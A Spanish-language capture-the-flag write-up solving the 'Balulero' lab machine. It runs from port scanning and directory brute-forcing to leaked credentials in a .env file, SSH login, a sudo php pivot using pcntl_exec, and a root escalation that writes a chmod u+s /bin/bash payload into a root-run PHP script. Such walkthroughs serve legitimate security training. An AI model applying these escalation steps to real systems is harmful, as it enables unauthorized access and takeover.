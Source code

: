 - Tags: #Balulero
---
[Maquina Balulero](https://mega.nz/file/OcEV2BYS#i3eCiO8_0FcRYTzAtYU_XGcLJ59PiTIqTE2Hs5TiboE) -> Enlace de descarga al laboratorio
```bash
7z x balulero.zip # Descomprimimos el laboratorio
sudo bash auto_deploy.sh balulero.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Gracias al ttl determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos y Servicios:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-65000 # Usamos nuestra herramienta para detectar puertos mediante TCP
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos deteccion de puertos
extractPorts allPorts # Parseamos la informacion mas relevante del escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos deteccion de los servicios y versiones que corren detras de estos puertos.
```

```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0) # Tenemos un servicio ssh expuesto
```

**OpenSSH 8.2p1** puede ser vulnerable a ciertas vulnerabilidades. El cliente y el servidor OpenSSH son vulnerables a un ataque de denegación de servicio previo a la autenticación (CVE-2025-26466) que se introdujo en agosto de 2023. Este ataque involucra un consumo asimétrico de recursos de memoria y CPU. 
OpenSSH 8.2p1 también es vulnerable a la vulnerabilidad CVE-2020-12062. Esta vulnerabilidad se encuentra en el cliente scp de OpenSSH y permite a un usuario malicioso en el servidor remoto sobrescribir archivos arbitrarios en el directorio de descargas del cliente.

### Fase Enumeracion Web:
```bash
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu) # Servicio web expuesto ( ubuntuFocal)
http://172.17.0.2/ # Tenemos la direccion URL de la web principal
```

```bash
# Resultado nada relevante
whatweb http://172.17.0.2
nmap --script http-enum -p 80 172.17.0.2
```

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash # Aplicamos reconocimiento de rutas
/whoami/              (Status: 200) [Size: 739] # Directorio encontrado
```

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,js,txt,php.back # Aplicamos reconocimiento de extensiones para archivos

# Resultado
/index.html           (Status: 200) [Size: 9487]
/script.js            (Status: 200) [Size: 2822]
/imagenes.js          (Status: 200) [Size: 398]
```

```bash
/script.js            (Status: 200) [Size: 2822] # Revisando el contenido vemos que hace referencia a una archivo: ( .env_de_baluchingon )
```

```bash
http://172.17.0.2/.env_de_baluchingon # Cuando lo intentamos cargar vemos lo siguiente.

RECOVERY LOGIN # Tenemos credenciales filtradas
balu:balubalulerobalulei
```

### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh balu@172.17.0.2 # Nos logueamos por ssh con exito
```

### Fase Escalada Privilegios:
```bash
drwxr-xr-x 2 chocolate chocolate 4096 May  7  2024 chocolate # Revisando el home tenemos este usuario el cual podemos leeer y acceder a su directorio personal
```

```bash
sudo -l

User balu may run the following commands on 888f56a75f4f:
    (chocolate) NOPASSWD: /usr/bin/php # Tenemos una via potencial de explotar este binario
```

```bash
# Escalaremos al usuario ( chocolate )
balu@888f56a75f4f:/home/chocolate$ CMD="/bin/bash"
balu@888f56a75f4f:/home/chocolate$ sudo -u chocolate /usr/bin/php -r "pcntl_exec('/bin/bash', ['-p']);"
```

**Nota** -> Despues de realizar un enumeramiento exhaustivo del sistema logramos detectar un proceso que se esta ejecutando como usario **root** pero que pertenece al usuario **chocolate** en la ruta: **( /opt/script.php )**
```bash
ps -faux # Listamos los procesos del sistema

# Resultado
root           1  0.0  0.0   2616  1724 ?        Ss   16:23   0:00 /bin/sh -c service apache2 start && a2ensite 000-default.conf && service ssh start && while true; do php /opt/script.php; sleep 5; done
```

Sabiendo que somos propietarios de este script **( script.php )** lo modificaremos para insertar una instruccion maliciosa que otorgue el permiso SUID a la bash.

```bash
<?php 
    system("chmod u+s /bin/bash"); 
?>
```

```bash
ls -l /bin/bash # Logramos cambiarle los permisos
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

```bash
bash -p # Ejeucutamos esta instrucion
```

```bash
bash-5.0# whoami
root # Migramos a root
```